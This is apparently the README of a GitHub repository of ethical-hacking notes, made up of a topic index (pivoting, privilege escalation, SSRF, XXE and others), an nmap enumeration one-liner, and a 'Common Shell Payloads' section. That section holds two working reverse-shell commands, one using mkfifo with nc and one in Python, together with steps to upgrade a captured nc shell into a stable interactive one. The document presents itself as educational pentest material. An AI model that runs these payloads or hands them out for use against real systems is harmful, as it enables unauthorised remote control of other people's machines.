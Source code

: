# ScriptKiddie

This repo contains some concepts and code snippets related to Ethical hacking. The Contents are given in alphabetical order.

***Disclaimer: This is for educational purpose and not to gain unauthorized access. Using your hacking skills on machines withuot permissions is illegal, so use it with responsibility***
## Contents
- [Burp & OWASP ZAP](./concepts/16.md)
- [chisel](./concepts/9.md)
- [Cross-site request forgery (CSRF)](./concepts/20.md)
- [CVE](./concepts/13.md)
- [Django](./concepts/15.md)
- [enum4linux]
- [Gobuster](./concepts/12.md)
- [Linux PrivEsc, LinPEAS & LinEnum](./concepts/17.md)
- [Networking tools](./concepts/2.md)
- [Nikto](./concepts/11.md)
- [nmap](./concepts/2a.md)
- [OSI & TCP/IP Model](./concepts/1.md)
- [OWASP Top 10](./concepts/14.md)
- [Pivoting](./concepts/4.md)
- [proxychain](./concepts/6.md)
- [shell](./concepts/5.md)
- [socat](./concepts/7.md)
- [ssh]
- [sshuttle](./concepts/8.md)
- [Server-side request forgery (SSRF)](./concepts/19.md)
- [Static binaries](./concepts/10.md)
- [Websites basics](./concepts/3.md)
- [XXE](./concepts/22.md)


## Enumeration

```
ports=$(nmap -p- --min-rate=1000 -T4 $ip | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports $ip
```

## Common Shell Payloads
```
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
[Github Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## Stabilize nc shell

After getting a reverse shell by listening on any port using `nc -lvnp <port>` We can get upgrade the shell by performing the following
1. Run `python -c 'import pty;pty.spawn("/bin/bash")'`. If this gives error like "python dont exist" use python2 or python3 instead.

Just by using this we will get a comparatively better shell. But we can't use autocomplete and arrow keys. For more stable shell

2. Run `export TERM=xterm` in reverse shell and background the process with Ctrl + Z.
3. Run `stty raw -echo; fg` in your own terminal. This will give the stable shell.
